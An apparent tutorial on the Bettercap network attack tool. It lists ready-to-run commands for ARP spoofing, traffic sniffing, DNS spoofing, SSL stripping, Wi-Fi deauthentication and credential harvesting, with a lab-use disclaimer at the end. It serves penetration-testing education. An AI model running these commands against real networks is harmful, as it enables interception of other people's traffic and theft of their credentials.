 ### Bettercap Basics: What It Is & What It Can Do

**Bettercap** is a powerful, modular, and user-friendly tool designed for **network attacks and monitoring**, including **Man-in-the-Middle (MitM)**, **packet sniffing**, **credential harvesting**, and more. It’s a **successor to Ettercap**, written in Go, and supports **interactive CLI scripting**, making it ideal for red teamers and pentesters.


## What Is Bettercap Used For?

| Category                      | Use Case                                                             |
| ----------------------------- | -------------------------------------------------------------------- |
| **Sniffing**               | Capture credentials, HTTP requests, DNS queries, cookies, forms      |
| **Man-in-the-Middle**  | Intercept and manipulate traffic with ARP spoofing or DHCP spoofing  |
| **Network Reconnaissance** | Discover live hosts, scan ports, detect services                     |
| **DNS/HTTPS Hijacking**    | Redirect DNS queries to malicious sites, attempt SSL stripping       |
| **Credential Harvesting**  | Extract HTTP/FTP/SMTP/POP3 creds, cookies, tokens                    |
| **Wi-Fi Attacks**          | Deauth clients, rogue AP, probe sniffing (if using wireless adapter) |
| **Scriptable Automation**  | Custom attack modules via `caplets` (Bettercap scripts)              |



## Key Bettercap Features

### 1. **ARP Spoofing**

```bash
set arp.spoof.targets 192.168.1.100
arp.spoof on
```

### 2. **Sniffing**

```bash
net.sniff on
```

Add `set net.sniff.verbose true` to see full packets.

### 3. **DNS Spoofing**

```bash
dns.spoof on
set dns.spoof.domains example.com
set dns.spoof.address 192.168.1.99
```

### 4. **HTTPS Downgrade (SSLstrip)**

```bash
https.proxy on
https.strip on
```

> Note: Modern browsers with HSTS will block this, making it less effective.

### 5. **Caplets**

Caplets are Bettercap’s automation scripts (like mini scripts for attacks).

Example:

```bash
bettercap -caplet http-cred-sniffer.cap
```

### 6. **Wi-Fi Attacks** (if wireless card supports monitor mode)

```bash
wifi.recon on
wifi.ap on
wifi.deauth all
```

---

## Example: Full ARP Spoofing + Sniffing Setup

```bash
sudo bettercap -iface eth0
```

To check the help page of a module in bettercap:
```bash
help module_name

net.probe on
net.probe off
```

Inside interactive shell:

```bash
set arp.spoof.targets 192.168.1.100
arp.spoof on
net.sniff on
```



## Learn Caplets

```bash
caplets.update
caplets.show
```


* Use in **lab environments** or **with explicit permission** only.
* Some features require **root privileges** and specific **network interfaces** (e.g., `wlan0mon`).
* Combine with tools like `Wireshark`, `mitmproxy`, or `Burp Suite` for deeper analysis.

